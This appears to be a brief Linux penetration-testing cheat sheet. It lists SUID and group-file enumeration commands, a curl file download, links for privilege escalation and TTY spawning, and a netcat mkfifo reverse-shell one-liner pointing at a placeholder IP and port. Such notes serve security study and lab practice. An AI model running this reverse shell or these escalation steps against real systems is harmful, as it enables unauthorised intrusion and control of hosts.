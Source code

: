 # Password File
[/etc/passwd](https://www.ibm.com/docs/en/aix/7.2?topic=passwords-using-etcpasswd-file)

# Download file
curl -o localNamed http://0.0.0.0:8000/fileName

# Enumeration:
## SUID bits:
* find / -perm -u=s -type f 2>/dev/null
* [LinEnum](https://github.com/rebootuser/LinEnum)

## Group files:
find / -group groupName -type f 2>/dev/null

## Privilege escalation:
* [Spawn a TTY shell](https://netsec.ws/?p=337)
* If you have a limited TTYY start another reverse shell with Python or another program(e.g limited reverse shell -> Spawn another shell)

## Linux Netcat:
* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f

## Strings/Information
* strings fname > fileName
* strings fname |more
